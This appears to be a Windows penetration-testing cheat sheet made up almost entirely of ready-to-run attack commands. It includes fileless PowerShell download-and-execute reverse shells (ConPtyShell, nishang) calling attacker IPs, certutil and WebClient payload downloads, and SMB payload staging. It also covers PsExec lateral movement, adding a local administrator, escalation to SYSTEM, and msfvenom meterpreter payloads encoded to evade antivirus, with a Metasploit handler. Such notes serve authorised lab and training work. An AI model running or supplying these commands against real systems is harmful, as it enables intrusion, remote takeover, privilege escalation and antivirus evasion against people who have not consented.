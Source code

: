 Invoke script withou saving to disk 

```
IEX(IWR http://192.168.119.228/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.119.228 53
```

RDP from powershell

```
mstsc /v:192.168.2
```


File download

a) certurtil
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```
b)  smb
```kali
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

```windows
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Connect to another user

```
PSEXEC.EXE \\LocalComputerIPAddress -u DOMAIN\my-user -p mypass CMD
```

add user to local admins

```
net localgroup administrators user /add
```

From Admin to System

```
.\PsExec64.exe -acceptula -i -s C:\PrivEsc\reverse.exe
```

Reverse shell with nishang

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.42.147/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.42.147 -Port 443
```


```
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`  

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

Before running this program, ensure the handler is set up in metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`  

﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

This should spawn a meterpreter shell for you!
```


downlaod file powershell
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

```

list file names recursively
```
gci -recurse | Select-Object FullName
```


enumerate SMB version

```
Enumerate SAMBA version on Linux:  
Need 2 console windows  

1st window run this: ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' port 139  
2nd: echo exit | smbclient -L [IP]
```


```
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```